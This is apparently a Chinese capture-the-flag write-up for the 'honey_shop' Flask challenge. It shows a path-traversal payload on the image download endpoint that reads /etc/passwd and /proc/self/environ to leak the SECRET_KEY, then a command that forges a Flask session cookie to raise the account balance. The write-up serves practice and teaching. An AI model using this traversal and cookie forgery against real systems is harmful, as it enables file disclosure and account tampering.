








# PASECA2019-honey_shop

参考博客：https://blog.csdn.net/qq_46263951/article/details/119703207

首先打开网页，发现是一个购物系统。且这种题一般都需要我们去买flag。



经典钱不够。



这种题一般都和session有关，需要我们去伪造session。抓个包看看。



```
eyJiYWxhbmNlIjoxMzM2LCJwdXJjaGFzZXMiOltdfQ.aCsQBQ.zw-UNSbBxIDQekunq10rIgkLlvA
```

发现是这种三段式的session，猜测是jwt加密，使用解密看看。[jwt在线解密网站](https://jwt.io/)



很明显balance是我们的金额，需要伪造session修改余额，所以需要secret_key即密钥

---

根据这里的提示`click to download our sweet images`。发现点击图片就能将图片下载下来。



我们尝试抓包。然后修改image的值为：

```
/download?image=../../../../../../../etc/passwd
```



尝试访问Python的环境变量：

```
/proc/self
// 其路径指向当前进程
 
/environ
// 记录当前进程的环境变量信息
```

访问`../../proc/self/environ`拿到secret_key。



```
SECRET_KEY=UtSUGVFblU9bfsLPQrvzZ6LkgdubtTUgKpX3u2Or
```

使用flask-session-cookie加密脚本

```
python3 flask_session_cookie_manager3.py encode -s "UtSUGVFblU9bfsLPQrvzZ6LkgdubtTUgKpX3u2Or" -t "{'balance': 1338, 'purchases': []}"
```

得到伪造后的session

```
eyJiYWxhbmNlIjoxMzM4LCJwdXJjaGFzZXMiOltdfQ.aCsR5w.9Ve0EAOs7yDnyCdPk9kQe-N9dk8
```

购买flag然后抓包将伪造后的session替换，然后就买到flag了。




